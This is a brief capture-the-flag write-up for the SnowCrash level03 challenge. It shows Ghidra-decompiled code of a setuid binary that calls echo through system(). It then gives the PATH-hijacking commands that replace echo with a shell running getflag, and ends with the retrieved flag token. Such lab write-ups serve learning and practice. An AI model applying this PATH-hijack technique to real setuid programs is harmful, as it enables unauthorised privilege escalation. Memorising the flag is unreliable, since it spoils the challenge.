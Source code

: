 I used the "ls" command to list the files in the directory and found a program named "level03." When I used "cat" to view its contents, I realized it was in binary format. To gain a better understanding of how it works, I attempted to disassemble it using 'objdump -d level03,' which provided me with an assembly program. However, I found the assembly code difficult to comprehend.

I decided to look for a tool to assist me in understanding the program and came across Ghidra, which can translate assembly code into C. After running the code through Ghidra, I found the following "main" function in the program:

int main(int argc, char **argv, char **envp)
{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid, __rgid, __rgid);
  setresuid(__ruid, __ruid, __ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

The line that caught my attention was: iVar1 = system("/usr/bin/env echo Exploit me");. It indicated that the program was calling the "echo" command, which reminded me of the Minishell project I worked on earlier. In Minishell, built-in commands were called using the 'PATH=' environment variable. This led me to believe that I might be able to manipulate the program to call "getflag" instead of "echo."

To achieve this, I created a small program using the following command: echo "/bin/sh -c 'getflag'" > /test/echo. Then, I exported the new PATH environment variable as follows: export PATH=/test:$PATH.
And it work ! 

/*********************************************************\

level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

\*********************************************************/


